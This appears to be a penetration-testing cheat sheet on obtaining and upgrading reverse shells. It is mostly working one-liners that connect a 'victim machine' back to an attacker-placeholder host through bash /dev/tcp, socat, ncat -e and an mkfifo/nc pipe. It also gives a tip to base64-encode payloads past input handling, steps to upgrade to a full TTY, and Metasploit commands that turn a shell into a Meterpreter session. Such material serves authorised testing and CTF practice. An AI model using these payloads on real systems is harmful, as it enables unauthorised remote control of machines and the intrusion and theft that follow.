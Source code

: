 # Shells

{% embed url="https://book.hacktricks.xyz/shells/shells/linux" %}
Normal Shells
{% endembed %}

{% embed url="https://book.hacktricks.xyz/shells/shells/full-ttys" %}
Full TTY Shells
{% endembed %}

## Bash

The classic bash-based reverse shell:

```
/bin/bash -i >& /dev/tcp/TargetIP/TargetPort 0>&1
```

**Note:** If the payload doesn't work because redirection or ampersand symbols behave weird in the vulnerable application, then base64 encoding the payload often works well.

## Socat TTY Shell

Do this for a full socat shell, no need to upgrade it. You need socat installed or a socat static binary for this, though.

On kali:

```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

On the victim machine:

```
./socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:YOUR_IP_ADDRESS_HERE:4444
```

Once the connection is made, you probably want to increase the terminal size (run in the reverse shell on the victim machine):

```
stty rows 57 cols 211
```

## Ncat

Listen to port 8001 on attacker machine:

```
sudo nc -lnvp 8001
```

Run ncat on the victim machine:

```
ncat ATTACKER_IP_HERE 8001 -e /bin/bash
```

**Note: The command is ncat, not nc or netcat. There is a difference!**

## Mkfifo

`sh`-based mkfifo reverse shell:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP_HERE ATTACKER_PORT_HERE >/tmp/f
```

## Upgrading Normal Shells to TTY shells

### Switch From ZSH To Bash

**Warning**: This doesn't work if your attacking machine uses zsh!

You can temporarily switch to bash:

```
exec bash --login
```

You can confirm you're using bash with:

```
ps -p $$
```

### Upgrade the Shell Using Python

Run this in the reverse shell to upgrade it. Don't worry if your terminal turns weird temporarily.

```
python -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo
fg
export TERM=xterm
```

### &#x20;Upgrade the Shell Without Python

```
script -qc "/bin/bash -i" /dev/null
CTRL+Z
stty raw -echo
fg
export TERM=xterm 
```

## Upgrading Normal Shells to Meterpreter

Run `msfconsole`. Create a listener using `multi/handler`:

```
use exploit/multi/handler
set lhost YOUR_IP_ADDRESS
set lport 4444
run
```

Then use one of the above reverse shells to connect to the listener. Once you have the shell, press `CTRL + Z` to background the shell session. It will tell you the **session number**. Keep that in mind.

Next:

```
use post/multi/manage/shell_to_meterpreter
set session SESSION_NUMBER
run
```

Once the upgrade finishes, you'll be able to see your new session:

```
sessions -l
```

_Note: There's a long-standing bug where it seems to get stuck on "Stopping exploit/multi/handler". Just press enter, it's not actually stuck._

Interact with the new session with:

```
sessions -i NEW_SESSION_NUMBER
```
